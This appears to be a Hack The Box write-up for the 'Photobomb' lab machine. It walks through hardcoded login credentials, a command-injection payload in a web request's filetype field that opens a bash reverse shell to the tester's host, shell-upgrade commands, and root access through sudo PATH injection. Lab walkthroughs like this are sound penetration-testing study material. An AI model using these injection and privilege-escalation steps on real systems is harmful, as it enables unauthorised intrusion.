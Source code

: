 # HTB - Photobomb

## Summary

I think this might be the easiest box there is. Hardcoded creds in the page source + a basic RCE vulnerability in a web request get us a reverse shell. The privesc is a basic PATH injection.

## Web Ex

Nmap shows port 80 is open with an http server running. The server has a login page. We can view page source (`ctrl + u`) and see the creds hardcoded.  

After logging in, we arrive at a photo downloading utility. We capture a download request in Burpsuite, and send it to repeater. The format of the request is:  
`photo=photo_name.png&filetype=png&dimensions=20x20`  
When we attempt to add `/` or `..` to the photo name field, to see if we can get LFI, it becomes clear that there is an LFI protection in place. This is apparent because the error message returned is different if there is one of these characters, vs if there is like an extra a or something to make the photo name wrong  

Playing around with the filetype field, we quickly find that adding a `;` causes a crash, and the server takes like 4 seconds to respond  
We attempt to execute a basic rev shell by putting:  
`png;bash -c 'bash -i >& /dev/tcp/<tun 0 ip>/8687 0>&1';`  
in the filetype field  

We should URL encode that in burp by highlighting and pressing `ctrl + u`  and then start a nc listener on 8687 and we get a connection  

Upgrade our shell with:  
`python3 -c 'import pty;pty.spawn("/bin/bash")'`  
`ctrl + z`  
`stty raw -echo; fg`  
`export TERM=xterm`  

## Privesc

`sudo -l`  shows:  
```txt
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin:/usr/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
So this means that we can run `/opt/cleanup.sh` with sudo  
Notably, env_reset is set, meaning our environment variables will not carry over when we run sudo. However, SETENV is also set on the `/opt/cleanup.sh` line, meaning we can set environment variables when we run `/opt/cleanup.sh` with sudo. This presents an easy path injection opportunity  

Looking at `/opt/cleanup.sh` we can see it calls `find`  
We create a new find in /tmp and add:  
`#!/bin/bash`  
`bash`  
to it and chmod +x it  

Then, run:  
`sudo PATH=/tmp:$PATH /opt/cleanup.sh`  
and we get a shell as root easy pz  
